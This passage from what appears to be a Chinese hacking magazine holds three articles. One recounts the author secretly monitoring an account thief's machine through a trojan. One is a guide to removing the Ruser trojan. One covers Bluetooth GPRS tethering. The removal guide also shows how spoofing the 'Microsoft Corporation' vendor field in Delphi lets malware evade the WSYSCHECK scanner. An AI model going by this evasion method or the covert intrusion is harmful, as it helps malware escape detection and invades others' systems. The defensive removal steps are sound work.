



结果发现就是昨天想让我种木马的那个“黑客”，没想到连自己的木马都运行，可能是为了测试 asp 空间收信吧。他还一边开着变态西游，一边和“客户”聊天，大概就是吹嘘他多么会盗号，说只要把那个网址（exe 木马地址，估计网马都不会用的）发给别人就可以盗到号，我狂汗！

他说着又把那个木马地址发过去，结果过了会对方说是木马（因为我的 pcshare 免杀不好，可能对方杀软报警了，我当时有些担心被发现）。“黑客”马上说：“我知道，这本来就是我的梦幻西游木马”。对方没说什么，呵呵，看来他还没有发现。

接着他又去登录了盗号管理页面，看看有没有“收获”，结果是空的。盗号者真的是可恶，所以我本想把他硬盘隐藏了吓唬一下他，结果看了半天才发现他是在网吧上网的，如图 7。

于是在他 FTP 空间主页里留了几句警告的话，刚好他也结束下机了。本来还想继续社工一下呢，但由于时间关系，就没有继续下去。本人写作水平有限，文中有不规范或不足、遗漏之处还请大家指正。

> 【文章中提到的聊天记录已收录于本期光盘中】

**编辑点评：** 说实话，选中这篇文章的原因不在于文章中的技术，而是文字作者的目的。希望大家看了此文之后，不仅做一个合法的网民，更要做一个有正义精神的网民。说起来，文中的那个虚拟主机提供商的权限似乎没有设置好，竟然还可以浏览目录……

## 对豪撒 WSYSCHECK 的 Ruser 木马的一点查杀研究

图无数小龙（张博）

从本文你可以学到：

- 如何对 Ruser 木马进行查杀

RUSER 是新推出的一款木马，如图 1，笔者一时手痒，于是下载测试运行，对其屏幕捕捉功能印象非常深刻，在本机测试屏幕捕捉功能，几乎没有延迟，看来程序在数据传输上处理得非常不错。

中了木马之后，笔者通常都会使用 WSYSCHECK 来查杀这些 DLL 线程插入木马，但是奇怪的是，在使用 WSYSCHECK 时，居然无法通过 WSYSCHECK 的可疑服务查找功能（陌生服务会在 WSYSCHECK 中显示为红色）和陌生进程插入功能（被插入了陌生进程的模块会在 WSYSCHECK 中显示为红色）。此时，笔者只好使用 360 安全卫士的“系统全面诊断”功能，来查看系统的可疑服务和可疑进程了。结果发现了一个可疑的服务，名为 BITS，如图 2。

通过对右侧显示的相关信息了解，可以看到这个服务端路径为“c:\windows\system32\mpeg4c32.dll”，很明显，这是一个 DLL 线程插入木马，把自己的线程插入到目标进程中，从而达到“无进程”、“无端口”的目的。

知道了这个 DLL 木马的文件路径和服务名称之后，现在就可以到 WSYSCHECK 中找到这个可疑的 BITS 服务了。这里，为了让读者朋友看到这个陌生服务的确在 WSYSCHECK 中显示为正常，所以选中了 BITS 服务下面的一个项目，大家可以看到这个 BITS 陌生服务居然在 WSYSCHECK 中显示为正常可信程序，如图 3。

现在，笔者就要纳闷了。以前在使用 WSYSCHECK 查找 DLL 线程插入木马和 ROOTKIT 木马，几乎屡试不爽，为何现在 WSYSCHECK 居然都无法提示陌生进程了？

原来这个 BITS 服务，修改了自身的文件厂商为“Microsoft Corporation”，而 WSYSCHECK 就是依据文件厂商“厂商”的判断文件是否可疑的，所以在这里就被狡猾的木马给蒙蔽了。

那为何使用 360 安全卫士能够查找出这个可疑服务呢？原来 360 安全卫士使用的是更加先进的 MD5 比对，而所有文件的 MD5 散列都是唯一的，这样就导致木马现形了。

刚才已经知道了这个木马的 DLL 文件路径，现在就可以通过 WSYSCHECK 的模块卸载功能来卸载和清除它了。这里，为了能够显示这个 DLL 文件，必须首先去掉“模块简洁显示”菜单前面默认的勾，如图 4。

此时，WSYSCHECK 就会把当前进程所调用的所有 DLL 文件全部显示出来，经过笔者研究这些 RUSER 木马的服务端文件，其实就隐藏在 SVCHOST.EXE 进程中。选中这个可疑的 SVCHOST.EXE 进程，然后在下面的模块列表中找到这个“c:\windows\system32\mpeg4c32.dll”DLL 文件，如图 5。

可以看到，因为这个“c:\windows\system32\mpeg4c32.dll”文件的文件厂商也被狡猾的作者修改成了“Microsoft Corporation”，所以这里这个可疑的 DLL 模块在 WSYSCHECK 中也几乎是隐形的。

现在，就来整理下木马服务端的清理思路：

- 首先把 WSYSCHECK 的“模块简洁显示”的勾去掉，这样可以看到全部模块。
- 然后选中“c:\windows\system32\mpeg4c32.dll”模块。
- 右键，在弹出的快捷菜单中选择“卸载模块并删除文件”。

这里不要使用 WSYSCHECK 的“立即卸载模块”功能，把这个模块从所有进程中清除掉，因为容易死机。最后，经过上面结束进程、删除文件，现在就可以来到 WSYSCHECK 的“服务管理”页面，选中 BITS 这个服务，右键选中“删除服务和文件”即可，如图 6。



图 3



图 4



图 5



图 6



图 7



图 8

这样，这个蒙蔽 WSYSCHECK 木马内核检测工具的 RUSER 木马，就被我们清除掉了。现在，来到控制端中，可以看到服务端下线了，说明我们清除成功，如图 7。

上面说到了 RUSER 依靠修改文件厂商达到蒙蔽 WSYSCHECK 的目的，这里来给读者讲解下 RUSER 服务端逃避 WSYSCHECK 的手法。

首先 RUSER 是使用 DELPHI 开发的，所以这里就来通过 DELPHI 讲解如何修改文件厂商。找到“工程”菜单下面的“选项”子菜单，如图 8。





在弹出的“选项”窗口中找到“版本信息”页面，双击公司名称右侧的选择项，然后写入微软公司的英文名，即可实现对 WSYSCHECK 的蒙蔽了，如图 9。

现在生成一个 TEST.EXE 文件，并且运行，可以看到它是显示为正常进程的（陌生进程显示为红色，正常进程显示为黑色，这里 TEST.EXE 在 WSYSCHECK 中显示为黑色），如图 10。

> 编辑点评：图文并茂，很好的一篇文章。说实话，修改版本信息来达到免杀的目的对我来说是很早就用过的技术了，真不敢相信 WSYSCHECK 竟然吃这一招，所以说，工具不能太信赖了……

## 死线的天空 + 无限的流量

——对 0801 期《电脑利用手机无线上网》的补充

by h4ckjoy

从本文你可以学到：

- 利用蓝牙手机无线上网，并突破文件下载限制

### 前言

大家拿到杂志的时候差不多就放假了吧？也许这时候有很多人正在为自己回家不能上网而发愁。记得暑假的时候，有几个同学宁愿赖在学校里天天上网，整个假期就只回家一、两个星期，就因为家里开通宽带不方便。想起来实在是不可思议，上网难道重要到了这种程度了吗？

本人放假回家而家里因为种种原因没能开通宽带，在家只能打打 CS。后来，经过几天的摸索和测试，实现了 GPRS 蓝牙无线上网，而且突破了移动不能下载大文件的限制。今天我就来说说方法，希望能方便外出旅行或者各种原因不能接入网络的同学，让大家再也不要眼睁睁地看着笔记本发呆。



说道蓝牙无线上网，其实就是利用蓝牙适配器、带 Modem 功能的手机，通过无线路由利用 GPRS 或 EDGE 实现网络接入。这是一种比较畸形的上网解决方案，网速决定于手机和当地网络，有二十几 K、十几 K、几 K 不等。

个人认为，随着日益增大的 2.75G、3G 网络覆盖面，以及网速的提升，该网络接入方法将会利用得越来越广。中国移动以其广阔的信号覆盖面，基本上实现了无论你走到哪里都能有移动信号，也就能使用 GPRS 或者 EDGE 实现随时随地无线上网，这是联通 CDMA 无法比拟的。本人还保存着早期 30 元 GPRS（CMWAP）流量封顶的移动卡（淘宝上有卖的哦），看着手机的流量几天就达到了几个 G，心里是异常地畅快，这 30 块钱花得值啊，哈哈。

### 硬件准备

设备：电脑、蓝牙适配器、带 Modem 功能的蓝牙手机。

为了实现比较彻底的无线，需要蓝牙支持。本人买本本时没有加蓝牙模块，于是去电脑城转了很久，终于找到个小巧的非常精致的 USB 蓝牙适配器，因为喜欢也就没怎么跟 JS 讲价。结果，第二天就不见了踪影，痛心疾首，那个无奈啊，只好又花了 30 块钱买了个极其普通的杂牌蓝牙适配器。这下安心了，也不追求外观了……带 Modem 功能的蓝牙手机其实很常见的，像诺基亚 6300，一般只要不是山寨机或者旧机都可以吧。

### 软件安装及设置

当然手机的蓝牙也要打开，我的手机是索爱 M608c，将笔记本蓝牙适配器与手机配对，输入密码确认后，成功配对，如图 3、图 4。

第三步：找到并打开桌面“蓝牙位置”，双击已配对的手机，刷新可用服务，看到“蓝牙拨号连接”处于可用状态，如图 5。





